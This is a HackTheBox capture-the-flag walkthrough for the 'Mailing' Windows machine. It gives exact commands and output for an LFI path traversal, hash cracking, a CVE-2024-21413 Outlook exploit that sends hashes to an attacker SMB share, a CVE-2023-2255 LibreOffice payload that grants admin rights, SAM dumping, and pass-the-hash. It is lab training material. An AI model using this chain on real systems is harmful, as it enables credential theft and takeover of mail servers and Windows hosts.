

# Mailing - HackTheBox - Writeup
Windows, 20 Base Points, Easy


## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services.

***User***: Found an LFI vulnerability in the `download.php` file. Download the `hMailServer.ini` file to obtain the password for the `Administrator` mailbox. Use `CVE-2024-21413` to leak the NTLM hash of the user `maya`.

***Root***: Discovered `LibreOffice`. Use `CVE-2023-2255` to add our user to the `Administrators` group. Retrieve the NTLM hash of the `localadmin` user using `crackmapexec`.


## Mailing Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Mailing]
└──╼ $ nmap -sV -sC -oA nmap/Mailing 10.10.11.14
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-22 21:37 IDT
Nmap scan report for 10.10.11.14
Host is up (0.073s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
25/tcp  open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://mailing.htb
|_http-server-header: Microsoft-IIS/10.0
110/tcp open  pop3          hMailServer pop3d
|_pop3-capabilities: UIDL USER TOP
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp open  imap          hMailServer imapd
|_imap-capabilities: CAPABILITY IDLE RIGHTS=texkA0001 CHILDREN QUOTA completed SORT IMAP4 OK NAMESPACE ACL IMAP4rev1
445/tcp open  microsoft-ds?
465/tcp open  ssl/smtp      hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
587/tcp open  smtp          hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
993/tcp open  ssl/imap      hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: CAPABILITY IDLE RIGHTS=texkA0001 CHILDREN QUOTA completed SORT IMAP4 OK NAMESPACE ACL IMAP4rev1
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: 34s
| smb2-time: 
|   date: 2024-06-22T18:38:29
|_  start_date: N/A

```

Observing port `80`, we see that the following web page is hosted:


By clicking on [http://mailing.htb/download.php?file=instructions.pdf](http://mailing.htb/download.php?file=instructions.pdf), we can download the instructions.pdf file.

The PDF download link is vulnerable to LFI. Using this vulnerability, I.e, we can obtain the `web.config` file by visiting [http://mailing.htb/download.php?file=web.config](http://mailing.htb/download.php?file=web.config).

As we can see, `hMailServer` is running on port 25. The configuration file for this program is located at `C:/Program Files (x86)/hMailServer/Bin/hMailServer.ini`.

We can retrieve this file using the LFI vulnerability with the following link: [http://mailing.htb/download.php?file=../../../Program%20Files%20(x86)/hMailServer/Bin/hMailServer.ini](http://mailing.htb/download.php?file=../../../Program%20Files%20(x86)/hMailServer/Bin/hMailServer.ini).

The configuration file contains the following MD5 hash password:

```console
┌─[evyatar9@parrot]─[/hackthebox/Mailing]
└──╼ $ cat hMailServer.ini 
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

We were able to crack only the `841bb5acfa6779ae432fd7a4e6600ba7` hash using `john`:

```console
┌─[evyatar9@parrot]─[/hackthebox/Mailing]
└──╼ $ john  --format=Raw-MD5 --show hash
?:homenetworkingadministrator

1 password hash cracked, 1 left

```

We have the `Administrator` credentials for `hMailServer`.

We can use [CVE-2024-21413](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file) to leak local NTLM information.

In the `instructions.pdf`, we can see an example of an email sent to `maya@mailing.htb`:



Let's use the exploit as follows (ensure `responder` is running beforehand):
```console
┌─[evyatar9@parrot]─[/hackthebox/Mailing]
└──╼ $ python3 CVE-2024-21413.py --server "mailing.htb" --port 587 --username "Administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url "\\10.10.14.15\get\my\file" --subject "Hi Maya!"

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de

✅ Email sent successfully.

```

After multiple attempts, we obtained the following hash:
```console
┌─[evyatar9@parrot]─[/hackthebox/Mailing]
└──╼ $ responder -I tun0
.....
                                    
[SMB] NTLMv2-SSP Client   : 10.10.11.14
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:95de498996a31a8c:D2BABC773FF653EE285D33E6FE5493A6:010100000000000080F2298488B6DA015D1DCBB264E2490C0000000002000800530059005500490001001E00570049004E002D005A004F0042005000340036004D0038004B005600410004003400570049004E002D005A004F0042005000340036004D0038004B00560041002E0053005900550049002E004C004F00430041004C000300140053005900550049002E004C004F00430041004C000500140053005900550049002E004C004F00430041004C000700080080F2298488B6DA0106000400020000000800300030000000000000000000000000200000C9E5BC0C7D84E948E12CF5D180E24C511C66B448EF8DB310790EDB6AD72669FF0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00370031000000000000000000
```

By cracking the hash using `john`, we obtained the following password:
```console
┌─[evyatar9@parrot]─[/hackthebox/Mailing]
└──╼ $ john --wordlist=~/Desktop/rockyou.txt  hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
m4y4ngs4ri       (maya)
1g 0:00:00:06 DONE (2024-06-22 22:39) 0.1447g/s 858618p/s 858618c/s 858618C/s m61403..m4893019
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed

```

Now we can use `evil-winrm` with the credentials of `maya`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Mailing]
└──╼ $ evil-winrm -i mailing.htb -u maya
Enter Password: 

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\maya\Documents> type ../Desktop/user.txt
d4fb2d142e3b5984ee4837fa4c2f6035

```

And we get the user flag `d4fb2d142e3b5984ee4837fa4c2f6035`.


### Root

When enumerating `C:\Program Files`, we observe `LibreOffice`:
```console
*Evil-WinRM* PS C:\Program Files> dir


    Directory: C:\Program Files


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         2/27/2024   5:30 PM                Common Files
d-----          3/3/2024   4:40 PM                dotnet
d-----          3/3/2024   4:32 PM                Git
d-----         4/29/2024   6:54 PM                Internet Explorer
d-----          3/4/2024   6:57 PM                LibreOffice
d-----          3/3/2024   4:06 PM                Microsoft Update Health Tools
d-----         12/7/2019  10:14 AM                ModifiableWindowsApps
d-----         2/27/2024   4:58 PM                MSBuild
d-----         2/27/2024   5:30 PM                OpenSSL-Win64
d-----         3/13/2024   4:49 PM                PackageManagement
d-----         2/27/2024   4:58 PM                Reference Assemblies
d-----         3/13/2024   4:48 PM                RUXIM
d-----         2/27/2024   4:32 PM                VMware
d-----          3/3/2024   5:13 PM                Windows Defender
d-----         4/29/2024   6:54 PM                Windows Defender Advanced Threat Protection
d-----          3/3/2024   5:13 PM                Windows Mail
d-----          3/3/2024   5:13 PM                Windows Media Player
d-----         4/29/2024   6:54 PM                Windows Multimedia Platform
d-----         2/27/2024   4:26 PM                Windows NT
d-----          3/3/2024   5:13 PM                Windows Photo Viewer
d-----         4/29/2024   6:54 PM                Windows Portable Devices
d-----         12/7/2019  10:31 AM                Windows Security
d-----         3/13/2024   4:49 PM                WindowsPowerShell

```

We have identified `LibreOffice` version `7.4`:
```console
*Evil-WinRM* PS C:\Program Files\LibreOffice\readmes> type readme_en-US.txt


======================================================================

LibreOffice 7.4 ReadMe

======================================================================
```

We can utilize the exploit detailed in [CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255), which involves an improper access control in the editor components of The Document Foundation LibreOffice, allowing an attacker to craft a document that loads external links without prompt. For more information, you can refer to the [NVD reference](https://nvd.nist.gov/vuln/detail/CVE-2023-2255).

In `C:\`, we can see the directory `Important Documents`, which is likely the directory for `LibreOffice`.

Let's use the exploit to add our user to the `Administradores` group:

```console
┌─[evyatar9@parrot]─[/hackthebox/Mailing]
└──╼ $ python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'maya.odt'
File maya.odt has been created !

```

Now we can upload the file to the `Important Documents` directory and execute it:

```console
*Evil-WinRM* PS C:\Important Documents> upload maya.odt
Info: Uploading maya.odt to C:\Important Documents\maya.odt

                                                             
Data: 40700 bytes of 40700 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Important Documents> net users maya
User name                    maya
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2024-04-12 4:16:20 AM
Password expires             Never
Password changeable          2024-04-12 4:16:20 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2024-06-22 11:42:49 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Usuarios
                             *Usuarios de escritori
Global Group memberships     *Ninguno
The command completed successfully.

*Evil-WinRM* PS C:\Important Documents> ./maya.odt

```

After running it, we can see that we are in the `Administrators` group:
```console
*Evil-WinRM* PS C:\Important Documents> net users maya
User name                    maya
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2024-04-12 4:16:20 AM
Password expires             Never
Password changeable          2024-04-12 4:16:20 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2024-06-22 11:49:57 PM

Logon hours allowed          All

Local Group Memberships      *Administradores      *Remote Management Use
                             *Usuarios             *Usuarios de escritori
Global Group memberships     *Ninguno
The command completed successfully.
```

Now we can use `crackmapexec` to extract the user hashes:

```console
┌─[evyatar9@parrot]─[/hackthebox/Mailing]
└──╼ $ crackmapexec smb mailing.htb -u maya -p "m4y4ngs4ri" --sam
SMB         10.10.11.14     445    MAILING          [*] Windows 10.0 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [+] MAILING\maya:m4y4ngs4ri (Pwn3d!)
SMB         10.10.11.14     445    MAILING          [+] Dumping SAM hashes
SMB         10.10.11.14     445    MAILING          Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.14     445    MAILING          Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.14     445    MAILING          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.14     445    MAILING          WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e349e2966c623fcb0a254e866a9a7e4c:::
SMB         10.10.11.14     445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
SMB         10.10.11.14     445    MAILING          maya:1002:aad3b435b51404eeaad3b435b51404ee:af760798079bf7a3d80253126d3d28af:::
SMB         10.10.11.14     445    MAILING          [+] Added 6 SAM hashes to the database
```

Now we can use Pass-The-Hash with `wmiexec` to gain access as the `localadmin` user:

```console
┌─[evyatar9@parrot]─[/hackthebox/Mailing]
└──╼ $ wmiexec.py mailing.htb/localadmin@mailing.htb -hashes aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae
Impacket v0.10.1.dev1+20230223.202738.f4b848fa - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>type users\localadmin\desktop\root.txt
c84308c2b56b39848c73e2b1d602983d

```

And we get the root flag `c84308c2b56b39848c73e2b1d602983d`.